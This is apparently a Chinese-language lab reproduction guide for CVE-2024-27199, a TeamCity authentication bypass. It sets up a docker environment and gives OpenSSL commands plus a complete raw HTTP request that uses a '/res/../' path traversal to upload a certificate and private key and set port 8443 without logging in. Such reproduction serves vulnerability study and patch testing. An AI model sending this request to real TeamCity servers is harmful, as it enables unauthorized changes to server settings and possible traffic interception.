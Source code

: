 # CVE-2024-27199 JetBrains TeamCity 身份验证绕过漏洞

 TeamCity Web 服务器中发现了第二个身份验证绕过漏洞。这种身份验证旁路允许在没有身份验证的情况下访问有限数量的经过身份验证的端点。未经身份验证的攻击者可以利用此漏洞修改服务器上有限数量的系统设置，并泄露服务器上有限数量的敏感信息。

项目官网下载地址https://www.jetbrains.com/teamcity/download/other.html

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2024-27199
- https://www.rapid7.com/blog/post/2024/03/04/etr-cve-2024-27198-and-cve-2024-27199-jetbrains-teamcity-multiple-authentication-bypass-vulnerabilities-fixed/
- https://blog.csdn.net/shelter1234567/article/details/136628215

## 漏洞环境

执行如下命令启动一个teamcity-server:2023.11.3服务：

```
docker compose up 
```

服务启动后，可访问`http://your-ip:8111/`将自动跳转到teamcity安装向导界面

略....

## 漏洞复现

1，服务信息泄露

![image-20240311153555850](./1.png)

2.HTTPS 证书上传

使用 OpenSSL 生成和处理 ECDSA 密钥对和证书

```shell
openssl ecparam -name prime256v1 -genkey -noout -out private-eckey.pem
openssl ec -in private-eckey.pem -pubout -out public-key.pem
openssl req -new -x509 -key private-eckey.pem -out cert.pem -days 360
openssl pkcs8 -topk8 -nocrypt -in private-eckey.pem -out hax.key
```

运行上面的命令生成如下文件

![image-20240311155857019](./2.png)

构造如下包，上传HTTPS 证书并设定8443端口

```
POST /res/../app/https/settings/uploadCertificate HTTP/1.1
Host: 192.168.116.128:8111
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary4d5hF7eNFFbgJoAC
Content-Length: 1576

------WebKitFormBoundary4d5hF7eNFFbgJoAC
Content-Disposition: form-data; name="certificate"; filename="cert.pem"
Content-Type: application/octet-stream

-----BEGIN CERTIFICATE-----
MIICYjCCAgegAwIBAgIUFHRabDe2dTOHNe8at5fDfsigDJwwCgYIKoZIzj0EAwIw
gYUxCzAJBgNVBAYTAmNuMQswCQYDVQQIDAJobjENMAsGA1UEBwwEbmFtZTEQMA4G
A1UECgwHY29tcGFueTESMBAGA1UECwwJdW5pdCBuYW1lMRQwEgYDVQQDDAtjb21t
b24tbmFtZTEeMBwGCSqGSIb3DQEJARYPYWRtaW5AYWRtaW4uY29tMB4XDTI0MDMx
MTA3NTQwN1oXDTI1MDMwNjA3NTQwN1owgYUxCzAJBgNVBAYTAmNuMQswCQYDVQQI
DAJobjENMAsGA1UEBwwEbmFtZTEQMA4GA1UECgwHY29tcGFueTESMBAGA1UECwwJ
dW5pdCBuYW1lMRQwEgYDVQQDDAtjb21tb24tbmFtZTEeMBwGCSqGSIb3DQEJARYP
YWRtaW5AYWRtaW4uY29tMFkwEwYHKoZIzj0CAQYIKoZIzj0DAQcDQgAEMJ6RI0Xj
dm72v2AjYl0SGBPAC/TqXHbdSyJSzqDmsH1Du/M8vlBkO1QYnNbcuiqnvEHnfea4
WlDf5a1XnSQBB6NTMFEwHQYDVR0OBBYEFIP5qYGpT7CujDvYGCNtsCiycOmdMB8G
A1UdIwQYMBaAFIP5qYGpT7CujDvYGCNtsCiycOmdMA8GA1UdEwEB/wQFMAMBAf8w
CgYIKoZIzj0EAwIDSQAwRgIhAMcfVmbn711/5hOhnryKro9XH5m77DK/vmBvR0mk
SIYVAiEApXhoDMQiv/0NVbZrOyW+c6oMSlg3CuKtAj6Sd5hxWR0=
-----END CERTIFICATE-----

------WebKitFormBoundary4d5hF7eNFFbgJoAC
Content-Disposition: form-data; name="key"; filename="hax.key"
Content-Type: application/octet-stream

-----BEGIN PRIVATE KEY-----
MIGHAgEAMBMGByqGSM49AgEGCCqGSM49AwEHBG0wawIBAQQgflqLec/N8uvpqGUK
Z7sGvs81dBDffRUw+ufigYq016ChRANCAAQwnpEjReN2bva/YCNiXRIYE8AL9Opc
dt1LIlLOoOawfUO78zy+UGQ7VBic1ty6Kqe8Qed95rhaUN/lrVedJAEH
-----END PRIVATE KEY-----

------WebKitFormBoundary4d5hF7eNFFbgJoAC
Content-Disposition: form-data; name="port"

8443
------WebKitFormBoundary4d5hF7eNFFbgJoAC--

```

![image-20240311161603819](./3.png)

后台验证下证书是否上传

![image-20240311161736742](./4.png)

或者直接访问https\://192.168.116.128:8443/

![image-20240311161839643](./5.png)

